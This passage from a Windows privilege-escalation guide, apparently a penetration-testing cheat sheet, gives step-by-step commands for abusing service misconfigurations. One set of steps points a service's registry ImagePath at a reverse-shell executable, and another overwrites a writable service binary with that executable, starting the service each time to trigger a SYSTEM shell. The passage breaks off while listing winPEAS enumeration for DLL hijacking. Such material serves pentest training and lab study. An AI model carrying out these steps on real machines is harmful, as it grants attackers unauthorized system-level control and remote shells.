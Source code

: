    ```
    > reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\Users\Public\reverse.exe /f
    ```
5.  Start a listener on our host (e.g Kali or Parrot), and then start the service to trigger the exploit:

    ```
    > net start regsvc
    ```

### **Insecure Service Executables**

If our user can modify the original service executable, we can easily replace it with our reverse shell executable. If you're going to use this in a real system, make a backup of the original executable.

1.  Enumerate services misconfiguration with winPEAS:

    ```
    > .\winPEASany.exe quiet servicesinfo
    ```
2.  If the service has an executable that appears to be writable by everyone.

    ```
    > .\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\service_name.exe"
    ```
3.  Create a backup of the original service executable:

    ```
    > copy "C:\Program Files\File Permissions Service\service_name.exe" C:\Temp
    ```
4.  Copy the reverse shell executable to overwrite the service executable:

    ```
    > copy /Y C:\Users\Public\reverse.exe "C:\Program Files\File Permissions Service\service_name.exe"
    ```
5.  Start a listener on our host (e.g Kali or Parrot), and then start the service to trigger the exploit:

    ```
    > net start filepermsvc
    ```

### **DLL Hijacking**

If a DLL is missing from the system and our user has to have write access to a directory within the PATH where Windows looks for DLLs, this is a more common misconfiguration that can be used to escalate privileges.&#x20;

#### DLL Hijacking Privilege Escalation

1.  To enumerate non-Windows services, we can use winPEAS:

    ```
    > .\winPEASany.exe quiet servicesinfo
    ```
2.  Find a directory that is writable and in the PATH. Begin by enumerating which of these services our user has stop and start access to:
